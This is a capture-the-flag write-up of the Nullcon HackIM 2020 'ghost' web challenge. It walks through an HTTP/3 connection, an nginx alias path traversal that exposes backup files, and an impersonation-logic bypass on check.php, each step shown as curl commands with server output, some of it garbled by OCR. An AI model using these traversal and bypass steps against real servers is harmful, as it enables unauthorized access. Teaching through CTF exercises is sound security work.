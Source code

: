 # Nullcon HackIM 2020 Writeup - ghost

## Challenge
Ever had a scary feeling when you are alone that there is something in the room, but you cant see it with your eyes alone_?

Don't be scared to probe at - https://web1.ctf.nullcon.net:8443/ _.

Note: Challenge Is Not Down_.

## Solution
### Stage 1
```ERR_CONNECTION_REFUSED``` occurs even when accessing the URL with Chrome.\
if you look at the hint, you will see a gif image of a woman counting1, 2 and 3.\
It will be connect if you use HTTP3.\
To make an HTTP3 connection with curl, you need to build an HTTP3 compliant version of curl yourself.\

#### Curl installation for HTTP3
Install the packages and libraries required.\
```
$ apt install cmake autoconf libtool pkg-config
# Install RUST (since the cargo command is required)
$ curl https://sh.rustup.rs -sSf | sh
Install golang # Download tar.gz from https://golang.org/dl/ $ tar -C / usr / local -xzf go1.13.7.linux-amd64.tar.gz
$ export PATH = $ PATH: / usr / local / go / bin
```

Look at [curl_http3](https://github.com/curl/curl/blob/master/docs/HTTP3.md) to install curl for HTTP3

If successful, you can see HTTP3 in Features.\
```
$ curl -V
...
Features: ... HTTP3 ...
```
#### Capture
Try to access by using the curl command with the --http3 option.
```
$ curl --http3 https://web1.ctf.nullcon.net:8443/ -v
    * Trying 139.59.34.79:8443 ...
    * Sent QUIC client Initial, ALPN: h3-25h3-24h3-23
    * h3 [: method: GET]
    * h3 [: path: /]
    * h3 [: scheme: https]
    * h3 [: authority: web1.ctf.nullcon.net:8443]
    * h3 [user-agent: curl / 7.69.0-DEV]
    * h3 [accept: * / *]
    * Using HTTP / 3 Stream ID: 0 (easy handle 0x55e190e16850)
    > GET / HTTP / 3
    > Host: web1.ctf.nullcon.net:8443
    > user-agent: curl / 7.69.0-DEV
    > accept: * / *
    > 
    <HTTP / 3 200
    <server: nginx / 1.16.1
    <date: Sat, 08 Feb 2020 05:00:19 GMT
    <content-type: text / html
    <content-length: 374
    <last-modified: Wed, 05 Feb 2020 19:18:19 GMT
    <etag: "5e3b14fb-176"
    <alt-svc: h3-23 = ": 443"; ma = 86400
    <accept-ranges: bytes
    < 
    <! DOCTYPE html>
    <html lang = "en">
    <head>
    <meta charset = "utf-8">
    <title> How are you here? </ title>

    </ head>
    <body>


    <center> <h1> Shit! </ h1>
    <h3> How on earth did you reach here? </ h3>
    <h3> We added another layer of security to so we dont get hacked. Can you breach that also? </ h3>
    <img src = "/ static / giphy.gif"> </ img>
    </ center>

    <!-No need to bruteforce #->

    </ body>
    </ html>

    * Connection # 0 to host web1.ctf.nullcon.net left intact
```
```<img src = "/ static / giphy.gif"> </ img>``` check ```static``` directory, you can see that the static directory listing is valid.\
```
$ curl --http3 https://web1.ctf.nullcon.net:8443/static/
    <html>
    <head> <title> Index of / static / </ title> </ head>
    <body>
    <h1> Index of / static / </ h1> <hr> <pre> <a href="../"> ../ </a>
    <a href="giphy.gif"> giphy.gif </a> 05-Feb-2020 19:18 5801332
    </ pre> <hr> </ body>
    </ html>
```
!!! misconfiguration of nginx creates a path traversal vulnerability.\
```
$ curl --http3 https://web1.ctf.nullcon.net:8443/static../
    <html>
    <head> <title> Index of / static ../</ title> </ head>
    <body>
    <h1> Index of / static ../</ h1> <hr> <pre> <a href="../"> ../ </a>
    <a href="backup/"> backup / </a> 05-Feb-2020 19:18-
    <a href="html/"> html / </a> 05-Feb-2020 19:18-
    <a href="static/"> static / </a> 05-Feb-2020 19:18-
    </ pre> <hr> </ body>
    </ html>
```
```
$ curl --http3 https://web1.ctf.nullcon.net:8443/static../backup/
    <html>
    <head> <title> Index of / static ../ backup / </ title> </ head>
    <body>
    <h1> Index of / static ../ backup / </ h1> <hr> <pre> <a href="../"> ../ </a>
    <a href="links.txt"> links.txt </a> 05-Feb-2020 19:18 277
    <a href="nginx.conf"> nginx.conf </a> 05-Feb-2020 19:18 1242
    </ pre> <hr> </ body>
    </ html>
```
```
$ curl --http3 https://web1.ctf.nullcon.net:8443/static../backup/links.txt
    To signup
    http: //localhost/check.php? signup = true & name = asd

    To Impersonate a person
    http: //localhost/check.php? impersonator = asd & impersonatee = check

    To umimpersonate a person
    http: //localhost/check.php? unimpersonate = asd-admin

    To get status
    http: //localhost/check.php? status = asd 
```
Next step -> attack ```/check.php``` :D\

### Stage 2
So as you see, ```/check.php``` function diffrently depending on the params.

When the sign-up and check the status, you can see that in addition to the user with the name specified in the parameter, a user with the admin role with ```-admin``` at the end of the name has been created.
```
$ curl --http3 -H "cookie: PHPSESSID = b7648f7c4261c2a885eda5c1322aba1c" "https://web1.ctf.nullcon.net:8443/check.php?signup=true&name=asd"
    <center> <h1> Welcome to password less authentication system </ h1> </ center> Please become admin, username: asd-admin 
```
```
$ curl --http3 -H "cookie: PHPSESSID = b7648f7c4261c2a885eda5c1322aba1c" "https://web1.ctf.nullcon.net:8443/check.php?status=asd"
    <center> <h1> Welcome to password less authentication system </ h1> </ center>
    name: asd </br>
    impersonating: </br>
    role: user </br>
    admin name: asd-admin </br>
    admin role: admin </br>
    Please become admin, username: asd-admin 
```

```
$ curl --http3 -H "cookie: PHPSESSID = b7648f7c4261c2a885eda5c1322aba1c" "https://web1.ctf.nullcon.net:8443/check.php?impersonator=asd&impersonatee=check"
    <center> <h1> Welcome to password less authentication system </ h1> </ center> You are not admin
```
```
$ curl --http3 -H "cookie: PHPSESSID = b7648f7c4261c2a885eda5c1322aba1c" "https://web1.ctf.nullcon.net:8443/check.php?status=asd"
    <center> <h1> Welcome to password less authentication system </ h1> </ center>
    name: asd </br>
    impersonating: check </br>
    role: user </br>
    admin name: asd-admin </br>
    admin role: admin </br>
    You are not admin
```
:/ user with the admin role cannot impersonate.
```
$ curl --http3 -H "cookie: PHPSESSID = b7648f7c4261c2a885eda5c1322aba1c" "https://web1.ctf.nullcon.net:8443/check.php?impersonator=asd&impersonatee=asd-admin"
    <center> <h1> Welcome to password less authentication system </ h1> </ center> cannot impersonate admin role 
```

Try to bypasse this by remove the impresonation of a user with the role of admin.
- Impersonate ```asd-admin``` as ```asd```.
- Impersonate ```asd``` as ```asd-admin```.
- ```asd-admin``` spoof of ```asd-admin```.
- ```asd``` has an admin role because it is still impersonating ```asd-admin```.

```
$ curl --http3 -H "cookie: PHPSESSID = b7648f7c4261c2a885eda5c1322aba1c" "https://web1.ctf.nullcon.net:8443/check.php?signup=true&name=asd"
    <center> <h1> Welcome to password less authentication system </ h1> </ center> Please become admin, username: asd-admin 
```
```
$ curl --http3 -H "cookie: PHPSESSID = b7648f7c4261c2a885eda5c1322aba1c" "https://web1.ctf.nullcon.net:8443/check.php?impersonator=asd-admin&impersonatee=asd"
    <center> <h1> Welcome to password less authentication system </ h1> </ center> You are not admin 
```
```
$ curl --http3 -H "cookie: PHPSESSID = b7648f7c4261c2a885eda5c1322aba1c" "https://web1.ctf.nullcon.net:8443/check.php?impersonator=asd&impersonatee=asd-admin"
    <center> <h1> Welcome to password less authentication system </ h1> </ center> You admin role is not admin
```
```
$ curl --http3 -H "cookie: PHPSESSID = b7648f7c4261c2a885eda5c1322aba1c" "https://web1.ctf.nullcon.net:8443/check.php?unimpersonate=asd-admin"
    <center> <h1> Welcome to password less authentication system </ h1> </ center> hackim20 {We_Never_Thought_it_Was_That_Vulnerable}
```
## Flag
the flag is ```hackim20 {We_Never_Thought_it_Was_That_Vulnerable}```

##### source
https://graneed.hatenablog.com/entry/2020/02/09/143359